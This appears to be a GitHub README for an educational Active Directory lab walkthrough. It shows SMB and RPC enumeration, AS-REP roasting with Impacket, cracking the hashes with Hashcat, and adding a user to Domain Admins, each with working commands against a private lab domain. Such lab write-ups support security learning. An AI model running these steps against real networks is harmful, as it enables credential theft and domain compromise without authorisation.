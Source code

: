 

# Active Directory Lab: Enumeration & Privilege Escalation (Educational)

This repository contains a walkthrough of an **Active Directory (AD) lab environment** used for learning **internal enumeration, password attacks, and privilege escalation**. All activities are performed in a controlled lab setup for **educational purposes only**.

## ⚠️ Disclaimer

This lab is for **educational purposes only**. Do **not** attempt these techniques on unauthorized networks or systems. Always get explicit permission before performing penetration testing.

---

## 🛠 Lab Environment

* **Domain Controller:** Windows Server 2022
* **Domain:** `emmanuel.local`
* **Users:** `emmanuel`, `jane`, `bob`
* **Kali Linux VM:** Used for enumeration, SMB access, and password attacks
* **Tools Used:**

  * `smbclient` (SMB file access)
  * `rpcclient` (AD enumeration)
  * `Impacket` (GetNPUsers, AS-REP roasting)
  * `Hashcat` (password cracking)
  * `xfreerdp` (RDP connection)
  * PowerShell AD cmdlets

---

## 📝 Lab Walkthrough

### 1️⃣ Enumerating SMB Shares

```bash
smbclient -L //192.168.10.6 -U 'emmanuel.local/emmanuel'
```

* Enumerated shares: `SYSVOL`, `NETLOGON`, `ADMIN$`, `C$`.
* Successfully accessed `SYSVOL` and `NETLOGON` using `emmanuel` credentials.

---

### 2️⃣ Accessing Policies & Scripts

* Navigated the `SYSVOL` share to review Group Policy objects and scripts.
* Downloaded files for analysis in `~/loot/SYSVOL`.

---

### 3️⃣ Enumerating AD Users

```bash
rpcclient -U "emmanuel%password" 192.168.10.6
enumdomusers
```

* Users discovered: `Administrator`, `emmanuel`, `jane`, `bob`.

---

### 4️⃣ AS-REP Roasting (No Pre-Auth)

```bash
impacket-GetNPUsers emmanuel.local -dc-ip 192.168.10.6 -request
```

* Retrieved AS-REP hashes for users with **no pre-authentication required** (`emmanuel`, `jane`, `bob`).

---

### 5️⃣ Cracking Hashes

```bash
hashcat -m 18200 asrep_hashes.txt /usr/share/wordlists/rockyou.txt -O --username --outfile cracked.txt
```

* Successfully cracked passwords for `emmanuel` and `jane`.
* Bob’s hash could not be cracked (used a strong password).

---

### 6️⃣ RDP Access

* Found RDP open on the DC: `3389/tcp`.
* Connected using **Jane**, who already had administrative privileges, to access the server.

---

### 7️⃣ Privilege Escalation

* Verified **Domain Admin group** membership:

```powershell
Get-ADGroupMember "Domain Admins"
```

* Elevated `emmanuel` to **Domain Admins** using PowerShell cmdlets.

---

## 📂 Directory Structure (Loot Example)

```
~/loot/
├─ SYSVOL/
│  ├─ Policies/
│  │  ├─ {GUID}/
│  │  └─ ...
│  └─ scripts/
└─ NETLOGON/
```

---

## 💡 Key Takeaways

* Enumerating SMB shares and AD objects is crucial for **internal reconnaissance**.
* AS-REP roasting is effective against accounts with **no pre-authentication**.
* Privilege escalation can be practiced safely in **controlled lab environments**.

---

## ⚡ Tools & References

* [Impacket](https://github.com/SecureAuthCorp/impacket)
* [Hashcat](https://hashcat.net/hashcat/)
* [PowerShell Active Directory Module](https://docs.microsoft.com/en-us/powershell/module/activedirectory/)
* [FreeRDP](https://www.freerdp.com/)


